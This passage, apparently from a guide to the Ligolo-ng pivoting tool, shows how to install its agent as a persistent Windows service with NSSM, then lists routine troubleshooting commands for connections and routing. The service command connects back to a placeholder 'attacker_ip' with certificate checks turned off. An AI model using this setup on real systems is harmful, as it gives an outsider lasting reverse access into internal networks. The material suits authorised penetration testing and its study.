 #### Windows Service

```powershell
# Using NSSM (Non-Sucking Service Manager)
nssm install LigoloAgent C:\path\to\agent.exe -connect attacker_ip:11601 -ignore-cert
nssm start LigoloAgent
```

## Troubleshooting

### Common Issues and Solutions

#### Connection Issues

If the agent cannot connect to the proxy:

```bash
# Check if the proxy is listening on the correct interface
netstat -tulpn | grep 11601

# Verify firewall rules
sudo iptables -L | grep 11601
```

#### Routing Problems

If you can't reach the internal network:

```bash
# Check if routes are properly set
ip route | grep ligolo

# Verify TUN/TAP interface is up
ip link show ligolo

# Test basic connectivity to the agent
ligolo-ng (192.168.1.5) » ping 8.8.8.8
```